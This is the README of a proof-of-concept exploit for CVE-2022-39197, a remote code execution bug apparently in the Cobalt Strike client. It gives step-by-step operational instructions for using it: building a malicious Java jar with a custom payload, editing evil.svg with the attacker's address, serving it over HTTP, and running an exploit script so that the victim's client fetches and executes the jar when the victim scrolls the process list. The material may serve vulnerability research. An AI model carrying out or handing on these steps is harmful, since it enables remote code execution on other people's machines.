

# **CVE-2022-39197 RCE POC**

### Usage

- **Prepare Payload**
1. Edit `Line 19` with your payload in `EvilJar/src/main/java/Exploit.java`
2. Build using jar `mvn clean compile assembly:single`
3. Move `EvilJar-1.0-jar-with-dependencies.jar` from `EvilJar/target/` to `serve/` folder
4. Edit `serve\evil.svg` replace `[attacker]` 
5. Serve using `python3 -m http.server 8080`

- **Execute Exploit**

```
python3 cve-2022-39197.py beacon.exe http://10.10.10.2:8080/evil.svg
```

Payload will be triggered as soon as the user scrolls through Process List

### POC.JPG?



### Reference Links

[https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg](https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg) — There’s a great in depth analysis of this vulnerability
[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)